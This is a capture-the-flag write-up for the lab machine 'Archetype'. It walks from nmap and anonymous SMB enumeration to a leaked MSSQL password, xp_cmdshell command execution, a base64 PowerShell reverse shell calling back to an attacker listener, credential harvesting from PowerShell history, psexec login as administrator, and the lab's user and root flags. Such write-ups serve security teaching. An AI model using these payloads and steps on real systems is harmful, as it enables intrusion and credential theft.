

first we scan with `nmap`, this is the command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```


We can see that the port `445` for *SMB* is opened. In addition, port `1433` for *mssql* is opened too 
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2025-10-08T21:25:05+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.43.119:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.43.119:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-08T21:22:33
|_Not valid after:  2055-10-08T21:22:33
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-08T14:24:56-07:00
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb2-time: 
|   date: 2025-10-08T21:24:54
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

When trying to connect using `smbclient` without proper credentials, we managed to list all the shares.

This is the command, `-N` is for anonymous, not necessary for this case, and `-L` is for list shares:
```bash
smbclient -N -L \\\\$target\\
```


We can see that there is some special share, which is called `backups`. luckily we managed to get into this share, without valid credentials again.
```bash
smbclient -N \\\\$target\\backups
```

Inside we can find a file which is called `prod.dtsConfig`, we take it to the remote machine using `get prod.dtsConfig`.


As we can see, this is config file to an microsoft sql database, where the password is `M3g4c0rp123` and the user_id is `ARCHETYPE\sql_svc`.
Probably this is the same service we saw running on port `1433`.

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

now we need to connect to the *mssql* service, we can use this command, that based on tool from impacket tools, the `-windows-auth` flag is important, otherwise it won't work:
```bash
impacket-mssqlclient ARCHETYPE/sql_svc@$target -windows-auth
```


I want to achieve reverse-shell, I read this article https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/, and it talks about *Enabling xp_cmdshell (Using impacket-mssqlclient)*.

First we need to copy this line, to enable xp_cmdshell:
```sql
enable_xp_cmdshell
```

Than, we can execute whatever we want, like this:
```
xp_cmdshell whoami
```


Now, i want to achieve reverse-shell using https://www.revshells.com/, I'm using the base64 payload for powershell, and than open new terminal and execute `nc -lvnp 1337`, waiting for connection.

This is the command we execute in the database:
```bash
xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMwAwACIALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```


And we got the user flag, which is found in C:\Users\<user>\Desktop\user.txt.


In order to achieve the root flag, we need to escalate our privilege.
So, let's use winPEAS.exe.

First we download the file to our local machine, using `wget`
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20251007-02ee8e3f/winPEASx64.exe -o winPEAS.exe
```

Then, we set the http server on the local machine, using this command:
```bash
python3 -m http.server 8080
```

And lastly asking from the remote machine, using this line, this ip will be our ip:
```ps1
wget http://10.10.15.30:8080/winPEAS.exe -outfile winPEAS.exe
```
we get the file in such way because the remote machine doesn't have access to the internet, as far as I can see.


Next, we want to execute this `winPEAS.exe`, just add `.\` before the filename. It might take some time, so be patient.

When scrolling through the script results, we find this interesting detail.


Okay, so let's try to read the history from the file `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` using this command:
```ps1 
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

When reading, we have these two lines:
```ps1
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```


Okay, so we got the admin password! which is `MEGACORP_4dm1n!!`, let's login using `psexec`:
```bash
impacket-psexec ARCHETYPE/administrator@$target
```
of course you need to supply the password we found.



and then just `type C:\Users\Administrator\Desktop\root.txt`.


**User Flag:*****`3e7b102e78218e935bf3f4951fec21a3`***

**Root Flag:*****`b91ccec3305e98240082d4474b848528`***
